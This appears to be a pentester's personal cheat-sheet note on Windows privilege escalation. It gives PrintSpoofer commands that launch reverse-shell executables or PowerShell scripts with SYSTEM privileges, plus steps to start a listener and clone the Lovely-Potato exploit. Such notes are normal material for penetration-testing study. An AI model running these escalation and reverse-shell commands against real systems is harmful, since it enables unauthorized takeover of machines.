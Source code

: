 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### PrintSpoofer
**If Windows server, try PrintSpoofer!**

```command prompt - target
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

```
https://github.com/itm4n/PrintSpoofer/releases
```

Transfer to target.

[[4._File Transfers]]

[[rlwrap]]

Use either exe or ps1 for reverse shell:

[[1._Reverse Shells (WIN)#Stageless Payloads]]
```command prompt - target
PrintSpoofer64.exe -c "cmd /c powershell -c C:\Windows\Temp\Tools\reverse64.exe"
```

OR

[[1._Reverse Shells (WIN)#Powershell reverse TCP]]

OR

[[1._Reverse Shells (WIN)#PowerShell 1 liner]]

```command prompt - windows
PrintSpoofer64.exe -c "cmd /c powershell -c C:\Users\thecybergeek\AppData\Local\Temp\Shelly.ps1"
```

Start another listener on Kali.

[[rlwrap]]

5. Now run the PrintSpoofer exploit to trigger a reverse shell running with SYSTEM privileges:

```command prompt - windows
C:\PrivEsc\PrintSpoofer.exe –i -c "C:\PrivEsc\reverse.exe"
```

#### Juicy Potato-Lovely
```bash - kali
git clone https://github.com/TsukiCTF/Lovely-Potato && cd Lovely-Potato
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]
